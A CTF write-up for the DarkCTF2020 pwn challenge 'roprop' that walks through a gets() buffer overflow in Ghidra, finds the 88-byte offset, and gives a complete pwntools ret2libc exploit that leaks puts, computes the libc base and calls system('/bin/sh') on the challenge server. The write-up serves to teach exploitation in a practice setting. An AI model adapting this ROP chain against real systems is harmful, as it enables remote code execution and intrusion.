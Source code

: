 DarkCTF2020: PWN - roprop
------------

Challenge Description:

![img](https://raw.githubusercontent.com/FreezeLuiz/CTF-Writeups/master/pwn/images/roprop-description.PNG "Flag: DarkCTF{just_kidding}")

From the challenge description we can get one important detail, rope or "ROP" is going to be used in this challenge _this was the 1st pwn challenge in the ctf... yea! xD_

If we run the binary it will display a bunch of text and asks for an input, if you supply an input it will exit the program. Pretty straight forward!

![img](https://raw.githubusercontent.com/FreezeLuiz/CTF-Writeups/master/pwn/images/roprop-1.PNG "Keep reading!")

Next step is to look at the binary in [ghidra](https://ghidra-sre.org/) 

```C++
undefined8 main(void)

{
  char local_58 [80];
  
  nvm_init();
  nvm_timeout();
  puts("Welcome to the Solar Designer World.\n");
  puts("He have got something for you since late 19\'s.\n");
  gets(local_58);
  return 0;
}
```

The main function is pretty short, _thank god!_, `local_58` is our input variable, as we can see from the line `gets(local_58)`, that input is a buffer of 80 bytes. 
>The gets function used here is extremely insecure as it does not limit the amount of input we store in the specified buffer, therefore a buffer overflow can occure.

Now lets check for the buffer overflow and if we can overwrite the instruction pointer `rip`, first we scream at the program... ehm, _observe_.

![img](https://raw.githubusercontent.com/FreezeLuiz/CTF-Writeups/master/pwn/images/roprop-2.PNG "we all scream for ice-cream")

```S
# dmesg

[ 5615.822856] roprop[3444]: segfault at 7ff73e004141 ip 00007ff73e004141 sp 00007ffecb650c10 error 14 in libc-2.31.so[7ff73e1a2000+25000]
[ 5615.822865] Code: Bad RIP value.
```
`Segmentation fault` is a great indicator that the program crashed due to the buffer overflow, by providing "A"*90. When we run `dmesg` as root we will see that the crash was due to a bad RIP value, and the ip value has 2 `4141` in its LSB we can deduce the value of the offset to be `90 bytes - 2 bytes = 88 bytes` 

Now its time to craft the payload using python and pwntools.

```python
#!/usr/bin/env python3

from pwn import *

context.arch='amd64' #Specifying the arch of the binary
elf = ELF("./roprop") #Importing the binary as an ELF object
p = remote("roprop.darkarmy.xyz", 5002) #Specifying the host and port of the challenge where the flag is located
#p = elf.process()

offset = 88 #Calculated offset between our input buffer and the RIP
p.recvuntil("since late 19's.") #Recieving the output strings of the binary

########################
# Building the payload #
########################

rop = ROP(elf) #Creating the rop object from the imported binary -curtisy of pwntools-
rop.call("puts", [elf.got['puts']]) # Gadget 1` Adding the "puts" gadget and specifying its argument to be the address of libc puts in the global offset table (GOT)
rop.call("main") # Gadget 2` Adding the binary's main function in our ROP chain -as POC and sanity check-
craft = [
        b"A"*offset,
        rop.chain() # Creating the chain and linking the gadgets, specified above, together
]

payload = b"".join(craft) # The payload will leak the address of puts and run the main function again.
p.sendline(payload) # Send the payload
p.recvline()
p.recvline()
puts = u64(p.recvline().rstrip().ljust(8, b"\x00")) # Display the puts address in an unpacked 64-bin format
log.info(f"puts found at {hex(puts)}") # Log our findings

# After getting the address of puts we should search on libc database website for the correct libc version that the server is using, download that libc.so file and use it in the next payload

##########################
# Importing libc gadgets #
##########################

libc = ELF("libc6_2.27-3ubuntu1.2_amd64.so") # Creating the ELF object of the correct libc version
libc.address = puts - libc.symbols['puts'] # Adjusting our libc address to be equal to the server's run-time libc address
log.info(f"libc_base_address determined at {hex(libc.address)}") # Log our findings

rop = ROP(libc) # Creating the ROP object of our downloaded libc
rop.call('puts', [next(libc.search(b'/bin/sh\x00'))])  # Gadget 1` libc's puts with the argument to search for /bin/sh -POC and Sanity check
rop.call('system', [next(libc.search(b'/bin/sh\x00'))]) # Gadget 2` libc's system with the argument /bin/sh to get a shell
rop.call('exit') # Gadget 3` Gracefully exit the program
craft = [
        b"A"*offset,
        rop.chain() # Chainning our specified gadgets
]

payload = b"".join(craft) # Payload should output /bin/sh and execute system(/bin/sh) and give us a shell, when we are done should exit gracefully
p.sendline(payload)
p.interactive() # ls -la && cat flag.txt
```

With that script we should be able to solve the challenge, I took the liberty of explaining it in the comments and I do recommend researching of the topic because it is extremely vast and interesting. 

![img](https://raw.githubusercontent.com/FreezeLuiz/CTF-Writeups/master/pwn/images/roprop-flag.png "hacker man!")
